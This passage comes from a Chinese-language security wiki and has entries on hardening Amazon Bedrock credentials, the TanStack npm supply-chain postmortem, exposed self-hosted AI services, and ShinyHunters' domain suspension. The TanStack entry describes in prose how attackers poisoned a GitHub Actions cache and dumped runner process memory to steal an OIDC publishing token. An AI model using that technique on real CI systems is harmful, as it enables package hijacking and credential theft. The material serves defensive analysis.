- **第一层（IAM Policy）**：精细化权限，限制可调用的模型和 Region，避免 `bedrock:*` 的过度授权。
- **第二层（网络层）**：IP Condition 或 VPC Endpoint，从网络路径上杜绝非授权访问。
- **第三层（组织层）**：SCP 作为强制护栏，不可被成员账户的 IAM Policy 绕过。
这三层的逻辑递进关系值得关注。IAM Policy 是面向单个身份的"软限制"（可以被更宽松的策略覆盖），SCP 是面向整个组织的"硬限制"（Deny 优先）。在实际攻击场景中，如果攻击者通过某种方式获取了完整的管理员权限，IAM Policy 可能被修改，但 SCP 的 Deny 无法被覆盖——这就是"纵深"的意义。

### 监控的本质：异常识别的难点与解法
CloudWatch 指标和 CloudTrail 日志构成了监控的两条腿。CloudWatch 擅长趋势异常检测（调用量突增、Token 消耗异常），而 CloudTrail 擅长溯源分析（sourceIP、accessKeyId、userAgent、eventTime）。两者结合才能回答"发生了什么"和"是谁干的"这两个核心问题。
文章特别强调了 `sourceIPAddress` 和 `userIdentity.accessKeyId` 两个字段的价值——前者可以识别非企业 IP 段的调用，后者可以定位具体的失效凭证。这两个字段的交叉分析是快速还原攻击链路的关键。

## 实践启示
### 立即可落地的措施
1. **假设已被攻陷**：不要寄希望于"凭证永不泄露"，而是假设任何长期 AK/SK 都可能被窃取。因此，优先将所有 Bedrock 调用迁移到 IAM Role 模式，使用临时凭证。
2. **信任策略加 IP 限制**：在 AssumeRole 的信任策略中添加 `aws:SourceIp` 条件，即使初始凭证泄露，攻击者也必须从企业 IP 段发起请求才能获取临时凭证——这大幅收窄了攻击面。
3. **双重 IP 防线**：在信任策略和权限策略中同时添加 IP 限制。即使临时凭证被中途截获并传递给第三方，对方也无法从非授权 IP 发起 Bedrock 调用。
4. **VPC Endpoint 是网络层最优解**：如果工作负载在 VPC 内，优先使用 VPC Endpoint 而非公网访问。流量不经过公网，从网络路径上彻底杜绝外部未授权访问。
5. **设置 Budgets 兜底告警**：虽然费用数据有数小时延迟，但它作为"最后防线"可以防止损失无限扩大。建议为 Bedrock 设置独立预算，阈值根据业务实际用量设定。

### 架构设计建议
对于需要从外部环境调用 Bedrock 的场景，推荐 AssumeRole 分层模式：

- 初始 User/Role 仅授予 `sts:AssumeRole` 权限
- 目标 Role 承载实际 Bedrock 权限，通过信任策略限制 Assume 条件（IP、时间、MFA 等）
- 临时凭证自动过期（默认 1 小时，最长可配置 12 小时）
这种模式的核心价值在于：凭证泄露后攻击者无法直接获利，还必须完成 AssumeRole 这一第二步——这一步通常会被条件策略拦截。

### 监控体系建设优先级
短期（1 周内）：

- 确认所有 Bedrock 调用已启用 CloudTrail 日志
- 设置 CloudWatch Alarm 监控 `Invocations` 和 `TokenCount` 的突增
中期（1 个月内）：

- 部署 Budgets 独立预算监控
- 通过 Athena 查询 CloudTrail，建立异常模式分析（异常 IP、非工作时段的调用）
长期（3 个月内）：

- 考虑 SCP 组织级管控，统一所有成员账户的 Bedrock 访问路径
- 建立定期审计机制，清理未使用的 Access Key

### 常见误区
- **误区 1**：认为使用 IAM Role 就足够了，不需要额外的 IP 限制。实际上，如果初始凭证（AK/SK）泄露，攻击者仍然可以从任意 IP 调用 AssumeRole——除非信任策略中有条件限制。
- **误区 2**：依赖月度账单审查来发现异常。Bedrock 的费用累积速度使得这种方式完全失效。
- **误区 3**：使用 `bedrock:*` 的过度授权。这使得攻击者即使只获取部分权限也能调用所有模型。

## 相关
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/amazon-bedrock-api-security-guide.md)

## 相关实体
- [企业级OpenClaw安全部署架构指南 | 亚马逊AWS官方博客](https://github.com/QianJinGuo/wiki/blob/main/entities/enterprise-openclaw-security-deploy-architecture-guide.md)
- [AgentCore Identity: 3-legged OAuth+Session Binding的安全架构](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-bedrock-agentcore-identity-security.md)
- [当 AI Agent 学会"忘记"：Amazon Bedrock AgentCore Memory 的记忆哲学" | 亚马逊AWS官方博客](https://github.com/QianJinGuo/wiki/blob/main/entities/when-ai-agents-learn-to-forget-amazon-bedrock-agentcore-memory-philosophy.md)
- [Introducing OS Level Actions in Amazon Bedrock AgentCore Browser](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-os-level-actions-in-amazon-bedrock-agentcore-browser.md)
- [AI Agent 的迁移与现代化 — 使用 Amazon Bedrock AgentCore 将 OpenClaw 从单机改造为多租户 Serverless 架构 第一篇 | 亚马逊AWS官方博客](https://github.com/QianJinGuo/wiki/blob/main/entities/using-amazon-bedrock-agentcore-openclaw-multi-1.md)
- [AI Agent 的迁移与现代化 — 使用 Amazon Bedrock AgentCore 将 OpenClaw 从单机改造为多租户 Serverless 架构 第四篇 | 亚马逊AWS官方博客](https://github.com/QianJinGuo/wiki/blob/main/entities/using-amazon-bedrock-agentcore-openclaw-multi-4.md)
- [基于 Prowler 与 GenAI 构建金融行业智能合规中枢（Alt）](https://github.com/QianJinGuo/wiki/blob/main/entities/based-on-prowler-genai-build-fintech-intelligent-compliance-2.md)
- [Real-time voice agents with Stream Vision Agents and Amazon Nova 2 Sonic](https://github.com/QianJinGuo/wiki/blob/main/entities/real-time-voice-agents-with-stream-vision-agents-and-amazon-nova-2-sonic.md)
- [Control where your AI agents can browse with Chrome enterprise policies on Amazon Bedrock AgentCore](https://github.com/QianJinGuo/wiki/blob/main/entities/control-where-your-ai-agents-can-browse-with-chrome-enterprise-policies-on-amazo.md)
- [Build financial document processing with Pulse AI and Amazon Bedrock](https://github.com/QianJinGuo/wiki/blob/main/entities/build-financial-document-processing-with-pulse-ai-and-amazon-bedrock.md)
- [Build real-time voice streaming applications with Amazon Nova Sonic and WebRTC](https://github.com/QianJinGuo/wiki/blob/main/entities/build-real-time-voice-streaming-with-amazon-nova-sonic-and-webrtc.md)
- [Improve bot accuracy with Amazon Lex Assisted NLU](https://github.com/QianJinGuo/wiki/blob/main/entities/improve-bot-accuracy-with-amazon-lex-assisted-nlu.md)
- [航班变更信息智能识别解决方案 | Amazon Web Services](https://github.com/QianJinGuo/wiki/blob/main/entities/航班变更信息智能识别解决方案.md)
- [Autonomous Vulnerability Hunting with MCP](https://github.com/QianJinGuo/wiki/blob/main/entities/bullyingllms.md)
- [Fine-tune LLM with Databricks Unity Catalog and Amazon SageMaker AI](https://github.com/QianJinGuo/wiki/blob/main/entities/fine-tune-llm-with-databricks-unity-catalog-and-amazon-sagemaker.md)
- [Amazon Nova Multimodal Embeddings 制造业智能应用](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-nova-manufacturing-intelligence.md)
- [Restrict access to sensitive documents in your Amazon Quick knowledge bases for Amazon S3](https://github.com/QianJinGuo/wiki/blob/main/entities/restrict-access-to-sensitive-documents-in-your-amazon-quick-knowledge-bases-for-.md)
- [LLM raiders and how to repel them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-how-to-repel.md)
- [From siloed data to unified insights: Cross-account Athena Access for Amazon Quick](https://github.com/QianJinGuo/wiki/blob/main/entities/from-siloed-data-to-unified-insights-cross-account-athena-access-for-amazon-quic.md)
- [基于 Prowler 与 GenAI 构建金融行业智能合规中枢](https://github.com/QianJinGuo/wiki/blob/main/entities/基于-prowler-与-genai-构建金融行业智能合规中枢.md)
- [Zenjoy 基于 Amazon Bedrock 和 EKS 构建 AIOps Agent：打通 Prometheus、ES 与夜莺的智能化告警实战](https://github.com/QianJinGuo/wiki/blob/main/entities/zenjoy-aiops-agent-bedrock-eks-prometheus.md)
- [LLM raiders and how to repel them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-private-ai-server.md)
- [AWS 一周综述：Amazon Bedrock AgentCore 付款、适用于 AWS 的 Agent 工具套件等（2026 年 5 月 11 日）](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-一周综述amazon-bedrock-agentcore-付款适用于-aws-的-agent-工具套件等2026-年-5-月-11-日.md)
- [CloudSectiDbits](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudsectidbits.md)
- [Schemata Dod Contractor Api Flaw Military Data Exposure](https://github.com/QianJinGuo/wiki/blob/main/entities/schemata-dod-contractor-api-flaw-military-data-exposure.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.032 Postmortem: TanStack npm supply-chain compromise | TanStack Blog

> 📊 Level ⭐⭐ | 10.5KB | `entities/postmortem-tanstack-npm-supply-chain-compromise-tanstack-blog.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/postmortem-tanstack-npm-supply-chain-compromise-tanstack-blog.md)

## 相关实体
- [rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack](https://github.com/QianJinGuo/wiki/blob/main/entities/rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack.md)
- [Semis Memo: Supply Chain Inheritance](https://github.com/QianJinGuo/wiki/blob/main/entities/semis-memo-supply-chain-inheritance.md)
- [Amazon launches Supply Chain Services for businesses of all sizes](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-supply-chain-services.md)
- [Semis Memo: Supply Chain Inheritance](https://github.com/QianJinGuo/wiki/blob/main/entities/citriniresearch-supply-chain-inheritance.md)
- [semgrep intercom php supply chain](https://github.com/QianJinGuo/wiki/blob/main/entities/semgrep-intercom-php-supply-chain.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)
## 深度分析
这起事件是一个三漏洞链式攻击的典型案例，其杀伤力在于每两个漏洞之间的"信任桥接"。攻击者没有使用任何零日漏洞，而是将三个已知攻击面组合：pull_request_target 的 Pwn Request 模式、GitHub Actions 缓存污染跨信任边界、运行时内存提取 OIDC Token。整个攻击从准备到执行历时约 26 小时，84 个恶意版本在 6 分钟内发布到 42 个 TanStack npm 包。
**第一层漏洞：pull_request_target 的信任假设错误。** `bundle-size.yml` 使用 `pull_request_target` 触发器处理 fork PR，并在该上下文中检出 fork 的 PR-merge ref 执行构建。这是一个长期已知危险的模式——pull_request_target 在 base repo 的信任上下文中运行，而非 fork 的隔离环境。workflow 作者尝试了信任拆分（comment-pr 与 benchmark-pr 分离），意图让 benchmark-pr "不信任、只读权限"，但这个拆分有两个致命缺陷：首先，`actions/cache@v5` 的 post-job 保存不受 `permissions: contents: read` 限制——缓存写入使用 runner 内部 Token 而非 workflow GITHUB_TOKEN；其次，缓存作用域是按 repo 的，pull_request_target runs 与 push to main 共享同一个缓存命名空间，fork PR 写入的缓存条目可被 main 分支的后续 workflow 读取。这两个缺陷使得攻击者可以在 fork 中写入恶意内容，污染 main 分支 workflow 将要使用的缓存。
**第二层漏洞：OIDC Trusted Publisher 的权限边界模糊。** TanStack 使用 npm OIDC trusted publisher 绑定——一旦配置，workflow 中任何代码路径都可以通过 `id-token: write` 权限获取 mint OIDC Token 的能力，直接 POST 到 registry.npmjs.org 完成发布。release.yml 声明 `id-token: write` 是为了合法需求（npm OIDC trusted publishing），但恶意代码在 test/cleanup 阶段通过内存提取获得 Token 后，绕过了 workflow 中定义的 Publish Packages 步骤（该步骤因测试失败被跳过），直接以合法身份发布到 npm。OIDC trusted publisher 的设计假设是"workflow 定义了发布边界"，但实际上它只绑定了"哪个 repo 可以发布"，而非"哪个 workflow step 可以发布"。这是一个根本性的架构盲点。
**第三层漏洞：内存中 OIDC Token 的运行时提取。** 恶意 payload 通过 `/proc/*/cmdline` 定位 GitHub Actions Runner.Worker 进程，读取其 `/proc/<pid>/maps` 和 `/proc/<pid>/mem` 来 dump 进程内存，提取 runner 懒加载到内存中的 OIDC Token。这是 tj-actions/changed-files 事件（2025 年 3 月）中已公开使用的技术，攻击者没有发明新的攻击手法，而是直接复用公开研究成果（包括代码中的 attribution comment），这反而使 IOC 匹配更快。
**三个漏洞为何缺一不可。** pull_request_target 单独使用是安全的（适合 labeling、comments 等可信操作）；缓存污染单独使用需要独立的发布载体；OIDC Token 内存提取单独需要已有的 runner 代码执行权限。只有当三个漏洞串联时，攻击链才完整：fork PR 代码 → 污染 base repo 缓存 → base repo workflow 恢复污染缓存并触发恶意代码 → 恶意代码从 runner 内存提取 OIDC Token → 以合法身份向 npm 发布。这个链条揭示了供应链攻击的核心特征：攻击者不是在寻找一个入口，而是在寻找信任边界的桥接点。
**攻击者的策略选择揭示了威胁模型的真实边界。** 攻击者使用了"干扰检测"策略：恶意 payload 故意破坏测试，使 publish 步骤被跳过（而不是失败后继续），这导致发布看起来是"测试失败后的残留"，而非"成功的隐蔽发布"。但这个策略反而成为双刃剑——测试失败触发了 workflow 的 failure 状态，更快地引起了维护者注意。更精心设计的攻击（保持测试通过、静默发布）可能会持续更长时间才被发现。攻击者还选择了 self-propagation 逻辑——枚举受害者维护的其他包并重新发布相同 injection，这意味着如果任何一位维护者的机器被入侵，攻击会自动扩散到其所有的包。这种"自动播种"策略极大化了攻击面，但也增加了被检测的概率。
**外部检测 vs 内部监控的结构性缺失。** 事件被外部安全研究员 ashishkurmi（StepSecurity）在发布后约 20 分钟发现，TanStack 团队是通过第三方通知才得知被攻击。这意味着：内部没有任何针对异常发布的监控、没有任何针对 OIDC Token 使用异常的告警、没有对 npm publish 行为的基线分析。这不是技术问题，而是优先级问题——大多数开源项目将有限资源投入功能开发，安全监控往往依赖第三方生态。这种结构性弱点在供应链攻击中被反复利用，因为攻击者知道开源项目的运营资源通常不足以支撑全面的安全监控。

## 实践启示
**GitHub Actions 缓存策略的重审。** 任何使用 `actions/cache` 的 workflow 都需要回答：缓存键是否跨信任边界可被污染？`pull_request_target` trigger 是否在相同缓存作用域中执行构建？Adnan Khan 2024 年记录了缓存 poisoning 攻击的完整技术细节，建议所有使用 GitHub Actions 缓存的项目进行专项审计：检查缓存键是否包含用户可控输入、确认哪些 workflow 有写缓存权限、验证 cache scope 隔离是否与 trust boundary 一致。最直接的缓解是避免在 `pull_request_target` 上下文中使用共享缓存，或使用独立、隔离的缓存存储。
**OIDC Trusted Publisher 的正确使用方式。** OIDC trusted publisher 的设计初衷是减少长期凭证的使用，但其"无限制发布"特性需要被重新审视。TanStack 事件揭示的盲点是：OIDC token mint 权限一旦授予，整个 workflow 的任何步骤都可以使用它，而不仅仅是定义的 Publish Packages 步骤。缓解策略：短期方案是增加 per-publish review 机制（manual classic token + 人工审核）；长期方案是推进 npm provenance verification，从 registry 层面验证 publish 确实来自预期的 workflow step 而非绕过步骤。对于拥有大量 maintainer 的 npm scope，应考虑将 OIDC 权限收窄到最小必要范围，并增加异常发布检测。
**第三方 Action 引用的固化。** TanStack 事件中 `actions/checkout@v6.0.2` 和 `TanStack/config/.github/setup@main` 等浮动版本引用是潜在的供应链风险点。浮动引用（@main、@v6.0.2）意味着每次执行都可能拉取不同内容，除非有 lock 文件或 SHA  pinning。GitHub Security Lab 的"Keeping your GitHub Actions and workflows secure"指南建议：所有第三方 Action 引用应固定到具体 SHA，浮动引用应视为安全债务并优先偿还。对于闭源或不受信任的第三方 Action，这一点尤为重要。
**开源项目的自我防护：npm token 隔离与机器安全。** 攻击者的 self-propagation 逻辑意味着：即使 npm token 未被盗，如果任一 maintainer 的机器被入侵，攻击可以自动扩散到其所有包。防御纵深需要：npm token 不存在于任何长期开机的 CI/CD 机器上，使用 OIDC 代替；CI/CD 环境与开发机器使用不同的凭证；定期轮换所有可达生产环境的凭证（AWS、GCP、Kubernetes、Vault、GitHub、npm、SSH）；CI/CD 环境网络隔离，限制对 Oxen/Session 等文件上传网络的访问。
**应急响应流程的建立。** TanStack 事件的响应并非从零开始——维护者之间的跨时区协调、第三方安全社区的及时通知、npm security 的 engagement 都较为顺畅。但暴露的缺口是：没有内部告警意味着响应窗口被人为拉长。开源项目应提前准备：建立安全响应联系人列表、知道如何联系主流 registry 安全团队、有针对异常发布的监控或依赖第三方监控服务、准备好 Incident 复盘模板以加速响应后分析。这次事件中 TanStack 的"开放问题"（如缓存是否实际被污染、npm cache 状态等）正是复盘模板驱动下快速识别待确认事项的体现。
**npm unpublish 政策的现实约束。** 事件期间 TanStack 无法直接 unpublish 受影响版本，因为 npm 的"no unpublish if dependents exist"政策——这意味着即使知道自己被攻击，维护者也只能 deprecate 版本（添加警告）而无法删除 tarball，只能等待 npm security 从 registry 端拉取。这是一个生态系统级别的政策权衡：一方面防止 arbitrary unpublish 破坏依赖链，另一方面在安全事件时阻碍快速响应。了解这个约束意味着：当真正需要快速响应时，必须同时联系 registry 安全团队，而非仅靠 local deprecation。

---

## Ch12.033 100万+AI服务暴露在公网——HackerNews扫描报告

> 📊 Level ⭐⭐ | 10.4KB | `entities/1-million-exposed-ai-services-hackernews.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/1-million-exposed-ai-services-hackernews.md)

# We Scanned 1 Million Exposed AI Services. Here's How Bad the Security Situation Is
**Source:** https://thehackernews.com/2026/05/we-scanned-1-million-exposed-ai.html
**Summary:** (from LLM review)
> Score: 8×8=64 | strong
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/1-million-exposed-ai-services-hackernews.md)

## 相关实体
- [Your AI Agents Are Already Inside the Perimeter. Do You Know Who They Are?](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-agents-inside-perimeter-hackernews.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 深度分析

本次安全扫描揭示了 AI 基础设施安全的严峻现状，其严重程度远超传统软件应用。Intruder 团队通过证书透明度日志扫描了超过 200 万台主机，发现约 100 万个暴露的 AI 服务，发现的结果令人警醒。

### 核心发现概览

| 发现类别 | 严重程度 | 影响 |
|---------|---------|------|
| Ollama API 无认证暴露 | 31% (5200+中) | 免费滥用付费模型 |
| Flowise/n8n 暴露实例 | 90+ 政府/金融/营销机构 | 业务逻辑和凭据泄露 |
| OpenUI 聊天机器人暴露 | 多个企业实例 | 对话历史完全可读 |
| API 密钥明文泄露 | 在 Claude 驱动机器人中发现 | 付费账户被接管 |
| 任意代码执行漏洞 | 实验室数天内发现 | 服务器完全沦陷 |

### 无认证部署成默认选项

许多开源 AI 项目默认不启用认证功能，这直接导致了大量用户数据和企业工具暴露在公网环境下。 研究团队发现的典型案例包括：

- **基于 OpenUI 的聊天机器人**：完整暴露了用户与 LLM 的对话历史，在企业环境中聊天记录可能包含敏感商业信息
- **Claude 驱动机器人**：某些实例不仅暴露对话，还以明文形式泄露了 API 密钥，攻击者可借此完全接管付费账户
- **多模态聊天机器人**：托管包括多模态 LLM 在内的各种模型，任何人都可以滥用他人基础设施进行越狱攻击

越狱攻击不再是理论威胁——人们正在寻找创意方式滥用公司聊天机器人，以访问更有能力的模型而不支付费用或将被请求记录到自己的账户。

### Ollama API 大规模暴露

在 5200 多台响应请求的 Ollama 服务器中，31% 无需认证即可访问，其中 518 台正在包装使用 Anthropic、Deepseek、Moonshot、Google 和 OpenAI 的前沿模型。 这意味着攻击者可以：

- 免费使用他人付费模型的计算资源
- 绕过所有使用限制和日志记录
- 隐藏真实身份进行恶意操作

Ollama 本身不存储消息，所以没有直接的对话数据暴露风险。但这些实例中许多在包装来自 Anthropic、Deepseek、Moonshot、Google 和 OpenAI 的付费前沿模型。

> [!related] 相关漏洞
> [Bleeding Llama](https://github.com/QianJinGuo/wiki/blob/main/entities/bleeding-llama-critical-unauthenticated-memory-leak-in-ollama.md) (CVE-2026-7482, CVSS 9.1) 揭示了 Ollama 的更深层问题——不仅默认无认证，还存在未认证内存泄漏漏洞，可导致整个进程堆内存被窃取。300,000+ 台暴露的 Ollama 服务器面临严重威胁。

### Agent 管理平台漏洞

n8n 和 Flowise 等工作流自动化平台在暴露后造成的危害尤为严重，因为这些平台通常连接着丰富的第三方凭据和敏感系统。

**典型案例**：

- 某 Flowise 实例暴露了整个 LLM 聊天服务的完整业务逻辑
- 存储的凭据列表被暴露（虽然 Flowise 加固后不会向未认证访客显示存储值，但攻击者仍可利用连接这些凭据的工具窃取敏感信息）
- 暴露了互联网解析工具和危险的本地功能（如文件写入和代码解释），使服务器端代码执行成为现实可能性

研究人员在实验室环境中仅用几天就发现了某热门 AI 项目中存在任意代码执行漏洞。

### 安全设计缺陷的系统性

被扫描的 AI 应用普遍存在以下问题：

1. **不安全默认配置**：开箱即用，无任何安全防护
2. **Docker 设置错误**：容器配置不当，可被利用
3. **硬编码凭据**：嵌入在设置示例和 docker-compose 文件中
4. **以 root 权限运行应用**：提升攻击成功后的破坏程度
5. **新安装即无认证直接获得完全管理权限**：安装后立即拥有最高权限

当这些配置错误与代码解释等高权限工具结合时，攻击半径显著扩大。如果沙箱薄弱且基础设施不位于 DMZ 中，爆炸半径会大幅增加。

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

## 实践启示

### 立即行动项

1. **身份验证强制化**：确保所有自托管 LLM 基础设施、Ollama API、n8n、Flowise 等平台在部署时强制启用身份验证，切勿依赖默认无认证状态。即使是内部网络服务，也应假设最终会暴露。

2. **网络隔离与 DMZ 部署**：将 AI 代理工具部署在隔离网络中，避免与核心业务系统直接连通。对外暴露的服务应经过严格的安全边界控制。使用网络分段确保即使 AI 服务被攻破，攻击者也无法横向移动。

3. **凭据管理审计**：立即审计所有 AI 平台中存储的第三方凭据，移除不必要的集成，对必须保留的凭据实施最小权限原则。优先检查 Flowise、n8n 等工作流平台的凭据存储。

4. **容器运行时安全**：避免以 root 权限运行容器，实施严格的 Docker 安全配置（用户命名空间、只读根文件系统、最小特权 seccomp 配置文件），定期扫描镜像中的漏洞和硬编码凭据。

5. **Ollama 专项加固**：如果使用 Ollama，确保其不直接暴露在公网，或配置适当的网络访问控制。检查是否有 31% 的无认证 Ollama 服务器暴露问题影响你的部署。

### 战略建议

AI 采用速度远超安全实践成熟的现状短期内不会改变。组织需要在 AI 项目的快速交付与安全基础之间建立平衡机制：

| 阶段 | 安全动作 |
|------|---------|
| 概念验证阶段 | 即引入安全评审，评估认证和访问控制需求 |
| 开发阶段 | 使用基础设施即代码（IaC）确保安全配置可复现 |
| 部署阶段 | 使用基线工具（如 Intruder）进行外部暴露面扫描 |
| 运营阶段 | 建立 AI 基础设施的安全基线标准，定期审计 |

所有这些措施的成本远低于数据泄露或系统被入侵后的损失。

### 漏洞响应优先级

| 优先级 | 漏洞类型 | 响应时间 |
|-------|---------|---------|
| P0 | 无认证的 AI 服务暴露公网 | 立即修复 |
| P1 | 使用 root 权限运行容器 | 24小时内 |
| P2 | API 密钥或凭据硬编码 | 1周内 |
| P3 | 不安全的默认配置 | 1个月内 |

> [!attention] 关键洞察
> 过去几十年软件行业在安全交付产品方面取得了真正进展，但 AI 疯狂的采用速度正在将这一进展置于风险之中。企业在快速部署自托管 LLM 基础设施，但速度正在以牺牲安全为代价。

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

---

## Ch12.034 Canvas Hackers ShinyHunters Say Their Official Domain Was Suspended

> 📊 Level ⭐⭐ | 10.2KB | `entities/canvas-hackers-shinyhunters-say-their-official-domain-was-suspended.md`

# Canvas Hackers ShinyHunters Say Their Official Domain Was Suspended

## 摘要

2026 年 5 月 11 日，知名黑客组织 ShinyHunters 的官方 clearnet 域名 `shinyhunte.rs` 突然离线。事件发生在该组织声称对 Instructure Canvas LMS 平台实施大规模破坏与数据窃取攻击后不久——多家大学受影响，Canvas 门户被替换为 ShinyHunters 的声明信息与赎金威胁。ShinyHunters 在其 Tor onion 服务上发布公告，声称该 `.rs` 域名已被注册局（RNIDS，塞尔维亚国家互联网域名注册局）暂停，且该组织从此将只通过 onion 服务运营。

## 核心要点

- **时间线高度一致**：`shinyhunte.rs` 离线时间（2026-05-11）与 ShinyHunters 对 Canvas LMS 的攻击声明时间高度吻合，引发地下论坛与社交媒体上关于"FBI 等执法机构介入"的猜测。
- **Canvas LMS 攻击影响范围**：数百所大学的 Canvas 门户显示 ShinyHunters 留下的破坏性信息与数据泄露威胁；ShinyHunters 先前已声称对 Salesforce、Anodot 相关泄露事件负责。
- **`.rs` 域名背景**：`.rs` 是塞尔维亚的国家代码顶级域名（ccTLD），来自塞尔维亚语 "Republika Srbija"，由 RNIDS（Serbian National Internet Domain Registry）管理。
- **域名暂停的常规触发**：通常需要滥用投诉、支持证据，或来自安全组织、托管商、CERT 团队、执法机构的请求；目前无公开证据确认 FBI 或其他执法机构正式接管了该域名。
- **域名功能定位**：被暂停的 clearnet 域名此前仅用于发布公告与运营更新；数据泄露（Salesforce、Anodot 相关）实际托管在 Tor onion 站点上。
- **Onion 服务转移**：ShinyHunters 在 onion 站点上明确警告"未来所有公告与泄露活动将通过 onion 基础设施进行；任何声称代表我们的其他地方都是冒充"。
- **未来复用风险**：ShinyHunters 警告该域名未来可能被未知方回收并用于恶意用途，提醒不要信任该域名。

## 深度分析

### 攻击时间线与因果链条

ShinyHunters 的活动在 2026 年上半年显著升级：

1. **2026 年 5 月初**：对 Canvas LMS 平台发动攻击——多家大学的 Canvas 门户被替换为包含 breach 声明与赎金威胁的页面
2. **2026 年 5 月 11 日（周一）**：clearnet 域名 `shinyhunte.rs` 突然下线
3. **2026 年 5 月 12 日**：Hackread 报道域名下线事件，分析其与 Canvas LMS 攻击的时间关联

该组织之前还声称对涉及 Salesforce 与 Anodot 的数据泄露事件负责，这些数据实际托管在 Tor onion 站点上，而非 clearnet 域名。

### 为什么 clearnet 与 onion 分离

值得注意的细节是：`shinyhunte.rs` 域名本身只承担"公告与运营更新"功能，真正敏感的数据泄露实际托管在 Tor onion 服务上。这种分离体现了 ShinyHunters 对 OPSEC（operational security）的精细考量：

- **Clearnet 域名**：作为公开的"门面"，发布声明、品牌信息、时间线
- **Onion 服务**：承载实际的泄露数据、谈判通道、买家列表

^c 这种结构意味着即使 clearnet 域名被暂停，组织核心运营能力（数据泄露）不受影响。

### 域名暂停机制分析

`.rs` 域名由 RNIDS 管理。域名暂停在涉及恶意软件分发、钓鱼、勒索软件或网络犯罪行动时并不罕见，但通常需要：
- 滥用投诉
- 支持证据
- 来自安全组织、托管商、CERT 团队、执法机构的请求

Hackread 报道明确指出，目前尚不清楚塞尔维亚当局或注册局是独立行动，还是基于外国机构（针对 ShinyHunters 活动进行调查）提交的请求或证据采取行动。也没有公开证据显示该域名被 FBI 或其他执法机构正式接管。

### 完全弃用 Clearnet 的战略含义

ShinyHunters 决定"完全放弃 clearnet 运营，仅依赖 onion 平台"具有重要的战略含义：

**1. OPSEC 警觉度提升**：Canvas LMS 攻击后公开关注度激增，组织希望最小化暴露面。

**2. 技术抗打击能力**：Onion 服务运行在传统 DNS 与 ICANN 体系之外，注册局与域名注册商无法直接暂停。这与传统网络犯罪组织"失去域名 → 重新注册备用域名"的循环模式有本质区别——Onion 服务一旦部署（私钥安全），理论上更难被定向关闭。

**3. 信任锚点切换**：组织通过公告明确"未来仅在 onion 域名为真"，其他任何声称代表 ShinyHunters 的地方都是冒充。这是一种信任迁移声明——把品牌的"真实性锚点"从可被暂停的 clearnet 域名转移到去中心化的 Tor 网络。

### 安全行业视角

对安全研究者的启示：

- **域名暂停是事后响应而非主动防御**：当攻击事件已经造成影响（Canvas LMS 门户被破坏），域名暂停只能限制后续公告分发，无法阻止数据已经被泄露的事实。
- **攻击者基础设施比表面更复杂**：一个简单的"域名暂停"对实际数据泄露几乎无影响，因为核心数据托管在 onion 网络。
- **威胁情报需要追踪多层基础设施**：研究者不能只盯着 clearnet 域名，还要关注 onion 服务、加密货币钱包、社交媒体账号等多个信任锚点。

## 实践启示

1. **教育机构需要严肃对待 LMS 安全**：Canvas LMS 攻击提醒——大学与教育机构作为大型 SaaS 客户，应该要求供应商提供清晰的事件响应计划、安全审计日志、跨租户隔离证据，以及在被攻击时的应急通信机制。
2. **威胁情报的多锚点原则**：安全团队在跟踪高级持续威胁（APT）或网络犯罪组织时，需要建立"多锚点信任图"——clearnet 域名、onion 服务、社交媒体账号、Telegram 频道、加密货币地址等。多锚点交叉验证才能避免单一信号被攻击者通过"删除一个节点"而失效。
3. **域名暂停是有限的执法工具**：对于已经迁移到 onion、加密消息应用、去中心化基础设施的攻击者，传统 DNS / 域名层面的执法工具效果有限；执法机构需要更专业的密码学与暗网取证能力。
4. **企业需要关注供应链 SaaS 的事件响应能力**：当关键 SaaS（Canvas LMS、Salesforce 等）被攻击时，客户应该有的明确退出/迁移策略，而不是被动等待供应商恢复。
5. **未来域名复用风险监测**：被暂停的域名可能被未知方回收并用于恶意活动（如 social engineering、phishing），安全团队应监控此类历史品牌的可疑注册。

## 相关实体

- [Claude Code 源码机制](https://github.com/QianJinGuo/wiki/blob/main/entities/两万字详解claude-code源码核心机制.md) — AI 工具架构
- [Karpathy Vibe Coding 访谈](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-最新访谈从-vibe-coding-到-agentic-engineering.md) — Agentic Engineering 范式
- [Harness Engineering 概念](https://github.com/QianJinGuo/wiki/blob/main/entities/一文带你弄懂-ai-圈爆火的新概念harness-engineering.md)
- [Karpathy Vibe Coding 完整版](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-vibe-coding-agentic-engineering.md)
- [Agent 记忆系统](https://github.com/QianJinGuo/wiki/blob/main/entities/存之有序治之有矩agent-记忆系统的工程实践与演进.md)
- [Scale Robot RL with NVIDIA Isaac Lab](https://github.com/QianJinGuo/wiki/blob/main/entities/scale-robot-reinforcement-learning-with-nvidia-isaac-lab-on-.md)
- [LLMReaper Browser Extension Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/llmreaper-dom-based-ai-conversation-exfiltration-via-browser-5ee512.md) — 浏览器扩展攻击向量
- [What My Privacy and Security Stack Actually Looks Like](https://github.com/QianJinGuo/wiki/blob/main/entities/what-my-privacy-and-security-stack-actually-looks-like.md) — 个人安全栈案例

